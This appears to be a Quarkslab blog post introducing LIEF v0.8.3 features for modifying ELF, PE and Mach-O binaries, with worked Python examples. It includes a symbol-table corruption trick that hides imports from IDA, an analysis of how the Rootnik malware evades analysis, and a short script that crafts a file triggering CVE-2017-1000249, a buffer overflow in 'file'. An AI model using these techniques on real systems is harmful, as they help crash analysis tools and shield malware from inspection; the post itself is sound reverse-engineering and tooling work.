








# Have fun with LIEF and Executable Formats

> This blog post introduces new features of LIEF as well as some uses cases.

> **Note**
This post has been originally posted on the [Quarkslab's blog](https://blog.quarkslab.com/have-fun-with-lief-and-executable-formats.html)


This blog post introduces new features of LIEF as well as some uses cases.

> **Note**
**TL;DR**: LIEF v0.8.3 is out. The main changelog is available [here](https://lief.quarkslab.com/doc/changelog.html#october-16-2017)
and packages can be downloaded on the [official website](https://lief.quarkslab.com/#download).


To install the Python package:

```console
$ pip install lief
```

## Development process

We attach a great importance to the automation of some development tasks like testing, distributing, packaging, etc. Here is a summary of these processes:

Each commits is tested on

  - Linux - x86-64 - Python{2.7, 3.5, 3.6}
  - Windows - x86 / x86-64 - Python{2.7, 3.5, 3.6}
  - OSX - x86-64 - Python{2.7, 3.5, 3.6}

The test suite includes:

  - Tests on the Python API
  - Tests on the C API
  - Tests on the parsers
  - Tests on the builders

If tests succeeds packages are automatically uploaded on the https://github.com/lief-project/packages repository.

For tagged version, packages are uploaded on the GitHub release page: https://github.com/lief-project/LIEF/releases.
Dockerlief

### Dockerlief

To facilitate the compilation and the use of LIEF, we created the [Dockerlief](https://github.com/lief-project/Dockerlief)
repo which includes various
[Dockerfiles](https://github.com/lief-project/Dockerlief/tree/v0.1.0/dockerlief/dockerfiles) as well as the
`dockerlief` utility. `dockerlief` is basically a wrapper on docker build .

Among Dockerfiles, we provide a [Dockerfile](https://github.com/lief-project/Dockerlief/blob/v0.1.0/dockerlief/dockerfiles/android.docker)
to cross compile LIEF for Android (`ARM`, `AARCH64`, `x86`, `x86-64`)

To cross compile LIEF for Android ARM, one can run:

```console
$ dockerlief build --api-level 21 --arm lief-android

[INFO] - Location of the Dockerfiles: ~/dockerfiles
[INFO] - Building Dockerfile: 'lief-android'
[INFO] - Target architecture: armeabi-v7a
[INFO] - Target API Level: 21
```

The SDK package `LIEF-0.8.3-Android_API21_armeabi-v7a.tar.gz` is automatically pulled from the Docker to
the current directory.

### Integration of libFuzzer

Fuzzing our own library is a good way to detect bugs, memory leak, unsanitized inputs ...

Thus, we integrated [libFuzzer](https://llvm.org/docs/LibFuzzer.html) in the project.
Fuzzing the LIEF ELF, PE, Mach-O parser is as simple as:

```cpp
#include <LIEF/LIEF.hpp>
#include <vector>
#include <memory>

extern "C" int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
  std::vector<uint8_t> raw = {data, data + size};
  try {
    std::unique_ptr<LIEF::Binary> b{LIEF::Parser::parse(raw)};
  } catch (const LIEF::exception& e) {
    std::cout << e.what() << std::endl;
  }
  return 0;
}
```

To launch the fuzzer, one can run the following commands:

```console
$ make fuzz-elf   # Launch ELF Fuzzer
$ make fuzz-pe    # Launch PE Fuzzer
$ make fuzz-macho # Launch MachO Fuzzer
$ make fuzz       # Launch ELF, PE and MachO Fuzzer
```

## ELF

### Play with ELF symbols - Part 2

In the [tutorial #03](https://lief.quarkslab.com/doc/tutorials/03_elf_change_symbols.html) we demonstrated
how to swap dynamic symbols between a binary and a library.
In this part, we will see how we can rename these symbols.

Changing symbol names is not a trivial modification, since modifying the string table of the `PT_DYNAMIC`
segment has side effects:

  - It requires to update the hash table (GNU Hash / SYSV).
  - It usually requires to extend the `DYNAMIC` part of the ELF format.

The previous version of LIEF already implements the rebuilding of the hash table but not the extending of
the `DYNAMIC` part.

With the `v0.8.3` we can extend the `DYNAMIC` part. Therefore:

  - We can add new entries in the `.dynamic` section
  - We can change dynamic symbols names
  - We can change `DT_RUNPATH` and `DT_RPATH` without length restriction

We will rename all **imported** functions of `gpg` that are imported from `libgcrypt.so.20` into
`a_very_long_name_of_function_XX` and all exported functions of `libgcrypt.so.20` into the same name
(*XX* is the symbol index). [^1]


```python
import lief

# Load targets
gpg = lief.parse("/usr/bin/gpg")
libgcrypt = lief.parse("/usr/lib/libgcrypt.so.20")

# Change names
for idx, lsym in enumerate(filter(lambda e : e.exported, libgcrypt.dynamic_symbols)):
  new_name = 'a_very_long_name_of_function_{:d}'.format(idx)
  print("New name for '{}': {}".format(lsym.name, new_name))
  for bsym in filter(lambda e : e.name == lsym.name, gpg.dynamic_symbols):
    bsym.name = new_name
  lsym.name = new_name

# Write back
binary.write(gpg.name)
libgcrypt.write(libgcrypt.name)
```

By using `readelf` we can check that function names have been modified:

```console
$ readelf -s ./gpg|grep "a_very_long_name"

   2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND a_very_long_name_of_funct@GCRYPT_1.6 (2)
   3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND a_very_long_name_of_funct@GCRYPT_1.6 (2)
  11: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND a_very_long_name_of_funct@GCRYPT_1.6 (2)
  13: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND a_very_long_name_of_funct@GCRYPT_1.6 (2)
  ...

$ readelf -s ./libgcrypt.so.20|grep "a_very_long_name"

  88: 000000000000d050     6 FUNC    GLOBAL DEFAULT   10 a_very_long_name_of_funct@@GCRYPT_1.6
  89: 000000000000dcd0    69 FUNC    GLOBAL DEFAULT   10 a_very_long_name_of_funct@@GCRYPT_1.6
  90: 000000000000d310    34 FUNC    GLOBAL DEFAULT   10 a_very_long_name_of_funct@@GCRYPT_1.6
  91: 000000000000de70    81 FUNC    GLOBAL DEFAULT   10 a_very_long_name_of_funct@@GCRYPT_1.6
  ...
```




Now if we run the new `gpg` binary, we get the following error:

```console
$ ./gpg --output bar.txt --symmetric ./foo.txt
relocation error: ./gpg: symbol a_very_long_name_of_function_8, version GCRYPT_1.6 not defined in file libgcrypt.so.20 with link time reference
```

Because the Linux loader tries to resolve the function `a_very_long_name_of_function_8` against
`/usr/lib/libgcrypt.so.20` and that library doesn't include the updated names we get the error.

One way to fix this error is to set the environment variable `LD_LIBRARY_PATH` to the current directory:

```console
$ LD_LIBRARY_PATH=. ./gpg --output bar.txt --symmetric ./foo.txt
$ xxd ./bar.txt|head -n1

00000000: 8c0d 0407 0302 c5af 9fba cab1 9545 ebd2  .............E..

$ LD_LIBRARY_PATH=. ./gpg --output foo_decrypted.txt --decrypt ./bar.txt
$ xxd ./foo_decrypted.txt|head -n1

00000000: 4865 6c6c 6f20 576f 726c 640a            Hello World.
```

Another way to fix it is to add a new entry in `.dynamic` section.

As mentioned at the beginning, we can now add new entries in the `.dynamic` so let's add a `DT_RUNPATH` entry
with the `$ORIGIN` value so that the Linux loader resolves the modified `libgcrypt.so.20` instead of the system one:


```python
...
# Add a DT_RUNPATH entry
gpg += lief.ELF.DynamicEntryRunPath("$ORIGIN")

# Write back
binary.write(gpg.name)
libgcrypt.write(libgcrypt.name)
```

And we don't need the `LD_LIBRARY_PATH` anymore:

```console
$ readelf -d ./gpg|grep RUNPATH

0x000000000000001d (RUNPATH)            Library runpath: [$ORIGIN]

$ ./gpg --decrypt ./bar.txt

gpg: AES encrypted data
gpg: encrypted with 1 passphrase
Hello World
```

### Hiding its symbols

While IDA v7.0 has been released recently, among the [changelog](https://www.hex-rays.com/products/ida/7.0/index.shtml)
one can notice two changes:

> - ELF: describe symbols using symtab from DYNAMIC section
> - ELF: IDA now uses the PHT by default instead of the SHT to load segments from ELF files

These changes are partially true. Let's see what go wrong in IDA with the following snippet:

```python
id = lief.parse("/usr/bin/id")
dynsym = id.get_section(".dynsym")
dynsym.entry_size = dynsym.size // 2
id.write("id_test")
```

This snippet defines the size of **one** symbol as the entire size of `.dynsym` section divided by 2.
The *normal* size of ELF symbols would be:

```python
>>> print(int(lief.ELF.ELF32.SIZES.SYM)) # For 32-bits
16
>>> print(int(lief.ELF.ELF64.SIZES.SYM)) # For 64-bits
24
```

In the case of the 64-bits `id` binary, we set this size to **924**.

When opening `id_test` in IDA and forcing to use **Segment** for parsing and not **Sections** we get the
following imports:

<div class="row">
  <div class="d-flex col-12 col-lg-4 align-middle mb-4 mb-sm-0">
  
  </div>
  <div class="d-flex col-12 col-lg-8 align-middle">
  
  </div>
</div>

Only one import is resolved and the others are **hidden**.

Note that `id_test` is still executable:

```console
$ id_test
uid=1000(romain) gid=1000(romain) ...
```

By using `readelf` we can still retrieve the symbols and we have an error indicating that symbol size is corrupted.

```console
$ readelf -s id_test
readelf: Error: Section 5 has invalid sh_entsize of 000000000000039c
readelf: Error: (Using the expected size of 24 for the rest of this dump)

Symbol table '.dynsym' contains 77 entries:
  Num:    Value          Size Type    Bind   Vis      Ndx Name
   0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
   1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND endgrent@GLIBC_2.2.5 (2)
   2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __uflow@GLIBC_2.2.5 (2)
   3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getenv@GLIBC_2.2.5 (2)
   4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.2.5 (2)
   5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND abort@GLIBC_2.2.5 (2)
   ...
```

In LIEF the (dynamic) symbol table address is computed through the `DT_SYMTAB` from the `PT_DYNAMIC` segment.

To compute the number of dynamic symbols LIEF uses three heuristics:

  1. Based on hash tables ([GNU Hash](https://github.com/lief-project/LIEF/blob/0.8.3/src/ELF/Parser.tcc#L711-L796) / [SYSV Hash](https://github.com/lief-project/LIEF/blob/0.8.3/src/ELF/Parser.tcc#L690-L708))
  2. Based on [relocations](https://github.com/lief-project/LIEF/blob/0.8.3/src/ELF/Parser.tcc#L513-L648)
  3. Based on [sections](https://github.com/lief-project/LIEF/blob/0.8.3/src/ELF/Parser.tcc#L653-L672)

Malwares start to use this kind of corruption as we will see in the next part.

### Rootnik Malware

Rootnik is a malware targeting Android devices. It has been analyzed by Fortinet security researcher.

A full analysis of the malware is available on the [Fortinet blog](https://blog.fortinet.com/2017/07/09/unmasking-android-malware-a-deep-dive-into-a-new-rootnik-variant-part-i).

This part is focused on the ELF format analysis of one component: libshell.

Actually there are two libraries `libshella_2.10.3.1.so` and `libshellx_2.10.3.1.so`. As they have the same
purpose, we will use the x86 version.

First if we look at the ELF sections of `libshellx_2.10.3.1.so` we can notice that the **address**, **offset,**
and **size** of some sections like `.text`, `.init_array`, `.dynstr`, `.dynsym` are set to 0.

This kind of modification is used to disturb tools that rely on **sections** to parse some ELF structures
(like objdump, readelf, IDA ...)

```console
$ readelf -S ./libshellx-2.10.3.1.so
There are 21 section headers, starting at offset 0x2431c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .dynsym           DYNSYM          00000114 000114 000300 10   A  2   1  4
  [ 2] .dynstr           STRTAB          00000414 000414 0001e2 00   A  0   0  1
  [ 3] .hash             HASH            00000000 000000 000000 04   A  1   0  4
  [ 4] .rel.dyn          REL             00000000 000000 000000 08   A  1   0  4
  [ 5] .rel.plt          REL             00000000 000000 000000 08  AI  1   6  4
  [ 6] .plt              PROGBITS        00000000 000000 000000 04  AX  0   0 16
  [ 7] .text             PROGBITS        00000000 000000 000000 00  AX  0   0 16
  [ 8] .code             PROGBITS        00000000 000000 000000 00  AX  0   0 16
  [ 9] .eh_frame         PROGBITS        00000000 000000 000000 00   A  0   0  4
  [10] .eh_frame_hdr     PROGBITS        00000000 000000 000000 00   A  0   0  4
  [11] .fini_array       FINI_ARRAY      00000000 000000 000000 00  WA  0   0  4
  [12] .init_array       INIT_ARRAY      00000000 000000 000000 00  WA  0   0  4
  [13] .dynamic          DYNAMIC         0000ce50 00be50 0000f8 08  WA  2   0  4
  [14] .got              PROGBITS        00000000 000000 000000 00  WA  0   0  4
  [15] .got.plt          PROGBITS        00000000 000000 000000 00  WA  0   0  4
  [16] .data             PROGBITS        00000000 000000 000000 00  WA  0   0 16
  [17] .bss              NOBITS          0000d398 00c395 000000 00  WA  0   0  4
  [18] .comment          PROGBITS        00000000 00c395 000045 01  MS  0   0  1
  [19] .note.gnu.gold-ve NOTE            00000000 00c3dc 00001c 00      0   0  4
  [20] .shstrtab         STRTAB          00000000 024268 0000b1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

If we open the given library in IDA we have no exports, no imports and no sections:



Based on the segments and dynamic entries we can recover most of these information:

  - `.init_array` address and size are available through the `DT_INIT_ARRAY` and `DT_INIT_ARRAYSZ` entries
  - `.dynstr` address and size are available through the `DT_STRTAB` and `DT_STRSZ`
  - `.dynsym` address is available through the `DT_SYMTAB`

The script [recover_shellx.py](https://gist.github.com/romainthomas/c262be2c29ab374451663b9f6dcdfc0d)
recovers the missing values, patch sections and rebuild a *fixed* library.



Now if we open the new `libshellx-2.10.3.1_FIXED.so` we have access to imports / exports and some sections.
The `.init_array` section contains 2 functions:

  1. `tencent652524168491435794009`
  2. `sub_60C0`

The `tencent652524168491435794009` function basically do a stack alignment and the `sub_60C0` is one of the
decryption routines[^2]. This function is obfuscated with graph flattening and looks like to O-LLVM graph
flattening passe[^3]:



Fortunately there are few "*relevant blocks*" and there are not obfuscated.

The function `sub_60C0` basically iterates over the program headers to find the encrypted one and decrypt
it using a custom algorithm (based on shift, xor, etc).






### Triggering CVE-2017-1000249

The CVE-2017-1000249 is a stack based buffer overflow in the `file` utility.
It affects the versions `5.29`, `5.30` and `5.31`.

Basically the overflow occurs in the size of the note description.

Using LIEF we can trigger the overflow as follows:


```python
import lief

target = lief.parse("/usr/bin/id")
note_build_id = target[lief.ELF.NOTE_TYPES.BUILD_ID]
note_build_id.description = [0x41] * 30
target.write("id_overflow")
```

```console
$ file --version
file-5.29
magic file from /usr/share/file/misc/magic

$ id_overflow
uid=1000(romain) gid=1000(romain) ...

$ file id_overflow
*** buffer overflow detected ***: file terminated
./id_overflow: [1] 3418 abort (core dumped)  file ./id_overflow
```

Here is the commit that introduced the bug: [9611f3](https://github.com/file/file/commit/9611f31313a93aa036389c5f3b15eea53510d4d1#diff-bc5c24ef9f39a5f4963ca28ecbc645b3L512).

## PE

The *Load Configuration* directory is now parsed into the [LoadConfiguration](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/PE/LoadConfigurations/LoadConfiguration.hpp) object.
This structure evolves with the Windows versions and LIEF has been designed to support this evolution.
You can take a look at [LoadConfigurationV0](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/PE/LoadConfigurations/LoadConfigurationV0.hpp#L47-L52),
[LoadConfigurationV6](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/PE/LoadConfigurations/LoadConfigurationV6.hpp#L47-L54).


One can find the different versions of this structure in the following directories:

  * `include/LIEF/PE/LoadConfigurations`
  * `src/PE/LoadConfigurations`

The current version of LIEF is able to parse the structure up to Windows 10 build 15002 with the *hotpatch
table offset*.

Here are some examples of the `LoadConfiguration` API:

```python
>>> target = lief.parse("PE64_x86-64_binary_WinApp.exe")
>>> target.has_configuration
True
>>> config = target.load_configuration
>>> config.version
WIN_VERSION.WIN10_0_15002
>>> hex(config.guard_rf_failure_routine)
'0x140001040'
```

LIEF also provides an API to serialize any ELF or PE objects into JSON[^4]

For examples to transform `LoadConfiguration` object into JSON:

```python
>>> from lief import to_json
>>> to_json(config)
'{"characteristics":248,"code_integrity":{"catalog":0,"catalog_offset":0 ... }}' # Not fully printed
```

One can also serialize the whole Binary object:

```python
>>> to_json(target)
'{"data_directories":[{"RVA":0,"size":0,"type":"EXPORT_TABLE"},{"RVA":62584,"section" ...}}' # # Not fully printed
```

## Mach-O

For Mach-O binary, dynamic executables embed the `LC_DYLD_INFO` command which is associated with the
`dyld_info_command` structure.

The structure is basically a list of offsets and sizes pointing to other data structures.

From `/usr/lib/mach-o/loader.h` the structure looks like this:

```cpp
struct dyld_info_command {
  uint32_t   cmd;
  uint32_t   cmdsize;
  uint32_t   rebase_off;
  uint32_t   rebase_size;
  uint32_t   bind_off;
  uint32_t   bind_size;
  uint32_t   weak_bind_off;
  uint32_t   weak_bind_size;
  uint32_t   lazy_bind_off;
  uint32_t   lazy_bind_size;
  uint32_t   export_off;
  uint32_t   export_size;
};
```

The `dyld` loader uses this structure to:

  - Rebase the executable
  - Bind symbols to addresses
  - Retrieve exported functions (or symbols)

Whereas in the ELF and PE format relocations are basically a **table**, Mach-O format uses **byte streams** to
rebase the image and to bind symbols with addresses. For exports it uses a **trie** as subjacent structure.

In the new version of LIEF, the Mach-O parser is able to handle these underlying structures to provide a user-friendly API:

The export trie is represented by the [ExportInfo](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/MachO/ExportInfo.hpp)
object which is usually tied to a [Symbol](https://github.com/lief-project/LIEF/blob/master/include/LIEF/MachO/Symbol.hpp).
The binding byte stream is represented trough the [BindingInfo](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/MachO/BindingInfo.hpp) object.

For the rebase byte stream, the parser create virtual relocations to model the rebasing process.
These virtual relocations are represented by the [RelocationDyld](https://github.com/lief-project/LIEF/blob/0.8.3/include/LIEF/MachO/RelocationDyld.hpp)
object and among other attributes it contains `address`, `size` and `type`[^5].

Here is an example using the Python API:

```python
>>> id = lief.parse("/usr/bin/id")
>>> print(id.relocations[0])
100002000 POINTER 64 DYLDINFO __DATA.__eh_frame dyld_stub_binder
>>> print(id.has_dyld_info)
True
>>> dyldinfo = id.dyld_info
>>> print(dyldinfo.bindings[0])
Class:       STANDARD
Type:        POINTER
Address:     0x100002010
Symbol:      ___stderrp
Segment:     __DATA
Library:     /usr/lib/libSystem.B.dylib
>>> print(dyldinfo.exports[0])
Node Offset: 18
Flags:       0
Address:     0
Symbol:      __mh_execute_header
```

## Conclusion

In this release we did a large improvement of the ELF builder. Mach-O and PE parts gain new objects and new
functions. LIEF is now available on [PyPI](https://pypi.python.org/pypi/lief)
and can be added in the requirements of Python projects whatever the Python version and the target platform.

Since the `v0.7.0` LIEF has been presented at [RMLL](https://prog2017.rmll.info/programme/securite-entre-transparence-et-opacite/lief-bibliotheque-d-instrumentation-de-formats-executables-mais-ca-fait-bife-c?lang=en)
and the [MISP](http://www.misp-project.org/) project uses it for its *PyMISP objects*.

Some may complain about the C API. They are right! Until the `v1.0.0` we will provide a minimal C API.
Once C++ API is stable we plan to provide full APIs for Python, C, Java, OCaml[^6], etc.

Next version should be focused on the Mach-O builder especially for adding sections and segments.
We also plan to support PE `.NET` headers and fix some performances issues.

For questions you can join the [Gitter channel](https://gitter.im/lief-project).

[^1]: All Python examples are done with the 3.5 version
[^2]: As mentioned in the Fortinet blog post, the library is packed.
